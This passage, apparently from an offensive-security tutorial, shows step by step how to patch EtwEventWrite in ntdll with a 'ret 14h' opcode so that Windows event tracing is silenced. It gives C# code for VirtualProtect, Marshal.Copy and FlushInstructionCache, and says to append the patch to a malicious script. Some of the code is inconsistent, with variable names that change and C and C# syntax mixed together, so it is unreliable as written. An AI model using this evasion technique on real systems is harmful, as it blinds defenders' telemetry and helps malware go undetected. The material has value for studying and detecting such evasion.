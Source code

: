 ```
var ntdll = Win32.LoadLibrary("ntdll.dll");
var etwFunction = Win32.GetProcAddress(ntdll, "EtwEventWrite");
```

* At step two, we need to modify the memory permissions of the function to allow us to write to the function. The permission of the function is defined by the `flNewProtect` parameter; `0x40` enables X, R, or RW access (memory protection constraints).

```
uint oldProtect;
Win32.VirtualProtect(
	etwFunction, 
	(UIntPtr)patch.Length, 
	0x40, 
	out oldProtect
);
```

* At step three, the function has the permissions we need to write to it, and we have the pre-defined opcode to patch it.
* Because we are writing to a function and not a process, we can use the infamous `Marshal.Copy` to write our opcode.

```
patch(new byte[] { 0xc2, 0x14, 0x00 });
Marshal.Copy(
	patch, 
	0, 
	etwEventSend, 
	patch.Length
);
```

* At step four, we can begin cleaning our steps to restore memory permissions as they were.

```
VirtualProtect(etwFunction, 4, oldProtect, &oldOldProtect);
At step five, we can ensure the patched function will be executed from the instruction cache.

Win32.FlushInstructionCache(
	etwFunction,
	NULL
);
```

* We can compile these steps together and append them to a malicious script or session. Use the C# script provided and experiment with this technique.
* After the opcode is written to memory, we can view the disassembled function again to observe the patch.

```
779f23c0 c21400		    ret	14h
779f23c3 00ec		      add	ah, ch
779f23c5 83e4f8		    and	esp, 0FFFFFFF8h
779f23c8 81ece0000000	sub	esp, 0E0h
```
